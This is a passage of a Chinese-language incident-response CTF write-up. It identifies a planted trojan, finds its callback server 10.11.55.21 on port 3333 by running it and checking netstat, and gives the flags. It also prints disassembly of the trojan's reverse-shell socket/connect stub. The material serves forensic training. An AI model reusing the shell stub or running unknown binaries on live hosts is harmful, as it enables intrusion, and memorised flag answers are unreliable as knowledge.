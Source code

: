 > $ cat index.php

> **flag{index.php}**

## 四,黑客留下了木马文件，请找出黑客的服务器ip提交

```shell
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      554/mysqld
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      506/sshd
tcp        0      1 10.0.10.6:45816         10.11.55.21:3333        SYN_SENT    1241/./shell(1).elf
tcp        0      0 10.0.10.6:22            122.239.18.143:9274     ESTABLISHED 753/sshd: root@pts/
tcp        0    340 10.0.10.6:22            122.239.18.143:30744    ESTABLISHED 1227/sshd: root@pts
tcp6       0      0 :::80                   :::*                    LISTEN      511/apache2
tcp6       0      0 :::22                   :::*                    LISTEN      506/sshd
```

> $ ./'shell(1).elf'
>
> $ netstat -antlp

> **flag{10.11.55.21}**

## 五,黑客留下了木马文件，请找出黑客服务器开启的监端口提交

> **flag{3333}**

补充:

木马文件分析,常规都是重新运行一次木马程序,虽然确实快,但是这种方法比较不显示,尝试逆向分析得到`ip`与`port`

```assembly
LOAD:08048054 ; void start()
LOAD:08048054                 public start
LOAD:08048054 start           proc near               ; DATA XREF: LOAD:08048018↑o
LOAD:08048054                 push    0Ah
LOAD:08048056                 pop     esi
LOAD:08048057
LOAD:08048057 loc_8048057:                            ; CODE XREF: start+44↓j
LOAD:08048057                 xor     ebx, ebx
LOAD:08048059                 mul     ebx
LOAD:0804805B                 push    ebx
LOAD:0804805C                 inc     ebx             ; call
LOAD:0804805D                 push    ebx
LOAD:0804805E                 push    2
LOAD:08048060                 mov     al, 66h ; 'f'			# socketcall 的调用号
LOAD:08048062                 mov     ecx, esp        ; args
LOAD:08048064                 int     80h             ; LINUX -
LOAD:08048066                 xchg    eax, edi
LOAD:08048067                 pop     ebx
LOAD:08048068                 push    15370B0Ah
LOAD:0804806D                 push    50D0002h				# 对应edi参数
LOAD:08048072                 mov     ecx, esp
LOAD:08048074                 push    66h ; 'f'
LOAD:08048076                 pop     eax
LOAD:08048077                 push    eax
LOAD:08048078                 push    ecx
LOAD:08048079                 push    edi					
LOAD:0804807A                 mov     ecx, esp
LOAD:0804807C                 inc     ebx
LOAD:0804807D                 int     80h             ; LINUX -
LOAD:0804807F                 test    eax, eax
```
